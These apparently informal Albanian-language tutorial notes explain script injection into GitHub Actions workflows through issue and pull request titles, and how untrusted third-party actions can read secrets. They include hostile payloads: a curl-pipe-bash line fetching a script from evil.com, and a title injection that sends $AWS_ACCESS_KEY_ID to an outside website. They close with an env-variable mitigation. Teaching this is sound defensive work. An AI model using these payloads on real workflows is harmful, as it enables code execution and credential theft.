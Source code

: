 Me e provu naj dit ket skritp

Hello world; curl https://evil.com/script.sh | bash

This would cause the workflow to run the command echo Hello World; curl https://evil.com/script.sh | bash, which would download and execute a malicious script from an external source.



Nje shmebull I nje workflow te thjesht, qe mundet me u perdor script injection Brenda jobi tend

Script-injection.yml



Script Injection
Bahen inject ne workflowin qe ti e perdor
Psh ka workflow qe bahen run, kur nje Issue I ri krijohet
Mundesh me kriju nje Issue me diqka specifike edhe me e injektu workflowin tend

Third Party & Steal your Secrets

Ka ne marketplace Third Party Actions qe ti lexon dhe eksporton paswordin, kto qe jan te pa verifikume untrusted authors 


E bajm ni new pull request me tekstin

Test Diqka Palidhje

E shohim qe punon gjithqka ne rregull

E bajm testin e dyt

a”; echo Got your password”

Kjo ta shfaq vetem Got you password

Pse ??
Sepse titulli qysh e kemi shkru kto thojzat e para “ ky ja mshel double quotes variables issue_tittle 

Jam tu ja vendos tek vetem a ,    issue_tiitle=”a”

Edhe me kto dy thojzat ;   po ja vendos ni komand tjeter qfare dush me e ekzekutu Brenda workflowit , edhe ja vendos ni thonjz nfund qe me mendu qe u mshel “

Ndersa output asht vetem Got you password
E bajm pak ma te fort komanden me curl, qe me i dergu paswordin dikun tjeter

a“; curl http://my-website.com?abc=$AWS_ACCESS_KEY_ID

Nese une e di qe je tu e perdor kete variable ne workflow, ikuu  me extrat edhe e dergoj ne website 

Nese ka te dhana mujna me ja marr eedhe mi ba ekstrakt 


E permirsojm pak skripten sepse titulli po na ekzekutohet si komand brenda workflowit, qe asht e rrezikshme


Nese e modifikojm pak
env:
          TITLE: ${{ github.event.issue.title }}

E minimizojm problemin qe tituli me u ekzekutu edhe me u perdor ne shell

Nese e bajm tash run ket komanten

a”; echo Got your password”

Nuk na del ne output Got your password



